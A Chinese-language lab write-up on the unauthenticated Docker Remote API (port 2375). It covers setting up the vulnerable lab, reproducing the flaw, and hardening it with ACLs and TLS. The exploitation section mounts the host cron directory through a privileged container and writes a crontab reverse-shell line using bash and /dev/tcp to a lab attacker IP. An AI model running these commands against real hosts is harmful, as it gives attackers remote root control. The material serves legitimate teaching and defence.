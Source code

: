 # Docker未授权访问漏洞

## 漏洞描述

恶意攻击者可以在未经授权的情况下访问 Docker 服务器或容器。这可能导致敏感数据泄露，或允许攻击者执行未经授权的操作，如添加、修改或删除容器。

## 环境搭建

安装docker

```
yum install -y docker
```

修改`/usr/lib/systemd/system/docker.service`服务，启动API接口。

```
ExecStart=/usr/local/bin/dockerd -H tcp://0.0.0.0:2375 -H unix://var/run/docker.sock
```

![image-20220726104747298](../../.gitbook/assets/image-20220726104747298.png)

重启docker服务。

```
systemctl daemon-reload
systemctl restart docker
```

![image-20220726104829456](../../.gitbook/assets/image-20220726104829456.png)

## 漏洞复现

输入`ip:2375/version`就会列出基本信息，和docker version命令效果一样。

![image-20220726104904921](../../.gitbook/assets/image-20220726104904921.png)



**利用docker容器写定时任务反弹shell**

我们可以利用未授权访问的docker remote api 开启一个容器并挂载至根目录，由此我们可以获得任意读写的权限，然后我们再将反弹shell命令写入定时任务crontab中，即可使宿主机反弹shell。

```
[root@localhost ~]# docker -H tcp://192.168.32.183:2375 run -it --user root --privileged -v /var/spool/cron/:/var/spool/cron/ alpine sh
```

写入定时计划

```
/ # echo '* * * * * bash -i >& /dev/tcp/192.168.32.130/8088 0>&1' >> /var/spool/cron/root
```

![image-20220726110359885](../../.gitbook/assets/image-20220726110359885.png)

## 安全加固

在不必需的情况下，不要启用docker的remote api服务，如果必须使用的话，可以采用如下的加固方式：

```
设置ACL，仅允许信任的来源IP连接；
设置TLS认证，官方的文档为Protect the Docker daemon socket
```

客户端与服务器端通讯的证书生成后，可以通过以下命令启动docker daemon：

```
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```

客户端连接时需要设置以下环境变量

```
export DOCKER_TLS_VERIFY=1
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```